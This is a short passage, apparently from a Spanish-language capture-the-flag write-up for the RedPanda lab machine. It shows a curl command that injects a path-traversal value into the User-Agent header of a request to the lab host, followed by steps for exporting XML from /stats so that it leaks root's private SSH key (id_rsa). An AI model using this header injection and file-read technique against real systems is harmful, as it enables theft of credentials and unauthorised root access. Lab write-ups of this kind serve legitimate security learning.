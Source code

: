 
```bash
curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/images.jpeg"
```

Finalmente exportar el xml desde `/stats` para que tome nuestro archivo.


![list](/assets/img/redpanda/Kali-2022-09-01-23-44-05.png){:.lead width="800" height="100" loading="lazy"}


Después de unos segundos si revisamos el xml tendra la id_rsa de root


![list](/assets/img/redpanda/Kali-2022-09-02-12-31-22.png){:.lead width="800" height="100" loading="lazy"}

***

![list](/assets/img/redpanda/Kali-2022-09-02-02-37-17.png){:.lead width="800" height="100" loading="lazy"}
